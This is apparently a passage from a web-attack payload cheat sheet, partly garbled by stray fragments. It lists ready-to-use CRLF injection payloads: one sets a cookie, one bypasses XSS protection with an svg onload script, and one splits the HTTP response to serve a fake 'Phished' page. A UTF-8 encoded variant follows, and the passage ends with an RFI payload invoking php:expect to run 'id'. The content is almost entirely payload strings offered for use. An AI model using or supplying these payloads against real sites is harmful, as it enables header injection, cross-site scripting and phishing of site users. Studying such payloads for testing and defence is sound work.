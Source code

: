 ```html
</script>
```
#### [source](https://trustfoundry.net/cross-site-request-forgery-cheat-sheet/)
--------------------------------------------------------------------------------
# CRLF common payloads

### Add a cookie
`request`
```http
http://www.example.net/%0D%0ASet-Cookie:mycookie=myvalue
```
`response`
```http
Connection: keep-alive
Content-Length: 178
Content-Type: text/html
Date: Mon, 09 May 2016 14:47:29 GMT
Location: https://www.example.net/[INJECTION STARTS HERE]
Set-Cookie: mycookie=myvalue
X-Frame-Options: SAMEORIGIN
X-Sucuri-ID: 15016
x-content-type-options: nosniff
x-xss-protection: 1; mode=block
```
### XSS bypass
```http
http://example.com/%0d%0aContent-Length:35%0d%0aX-XSS-Protection:0%0d%0a%0d%0a23%0d%0a<svg%20onload=alert(document.domain)>%0d%0a0%0d%0a/%2f%2e%2e
```
### HTML
```http
http://www.example.net/index.php?lang=en%0D%0AContent-Length%3A%200%0A%20%0AHTTP/1.1%20200%20OK%0AContent-Type%3A%20text/html%0ALast-Modified%3A%20Mon%2C%2027%20Oct%202060%2014%3A50%3A18%20GMT%0AContent-Length%3A%2034%0A%20%0A%3Chtml%3EYou%20have%20been%20Phished%3C/html%3E
```
### UTF-8 encoded payload
```http
%E5%98%8A%E5%98%8Dcontent-type:text/html%E5%98%8A%E5%98%8Dlocation:%E5%98%8A%E5%98%8D%E5%98%8A%E5%98%8D%E5%98%BCsvg/onload=alert%28innerHTML%28%29%E5%98%BE
```
--------------------------------------------------------------------------------

# Remote File Inclusion (RFI)

#### Common payloads
`php:expect://id`
